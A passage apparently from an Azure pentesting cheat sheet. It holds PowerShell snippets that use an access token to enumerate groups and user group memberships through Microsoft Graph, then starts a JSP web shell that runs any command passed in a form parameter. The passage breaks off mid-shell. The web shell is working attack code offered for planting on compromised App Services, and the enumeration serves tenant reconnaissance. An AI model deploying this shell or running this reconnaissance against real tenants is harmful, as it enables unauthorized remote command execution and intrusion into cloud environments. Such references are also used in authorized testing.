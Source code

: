 - List all Groups
```powershell
$Token = (Get-AzAccessToken -ResourceTypeName MSGraph).Token
$URI = 'https://graph.microsoft.com/v1.0/groups'
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{
'Authorization' = "Bearer $Token"
}
}
(Invoke-RestMethod @RequestParams).value | select displayname
```

- Get a specific Group
```powershell
$Token = (Get-AzAccessToken -ResourceTypeName MSGraph).Token
$URI = 'https://graph.microsoft.com/v1.0/groups/57ada729-a581-4d6f-9f16-3fe0961ada82'
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{
'Authorization' = "Bearer $Token"
}
}
(Invoke-RestMethod @RequestParams)
```

- List Group membership of a User.
```powershell
$Token = (Get-AzAccessToken -ResourceTypeName MSGraph).Token
$URI = 'https://graph.microsoft.com/v1.0/users/20e74a5e-9768-4201-92b2-e58908b94ef9/memberOf'
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{
'Authorization' = "Bearer $Token"
}
}
(Invoke-RestMethod @RequestParams).value | select displayname
```

# App Services
- Java Web Shell
```java
<%@ page
import="java.util.*,java.io.*"%>
<%
%>
<HTML>
<BODY>
<H3>JSP SHELL</H3>
<FORM METHOD="GET" NAME="myform"
ACTION="">
<INPUT TYPE="text" NAME="evil">
<INPUT TYPE="submit" VALUE="Pwn">
</FORM>
<PRE>
<%
if (request.getParameter("evil") != null) {
out.println("Command: " +
request.getParameter("evil") + "<BR>");
Process p =
Runtime.getRuntime().exec(request.getParameter("evil"));
OutputStream os = p.getOutputStream();
```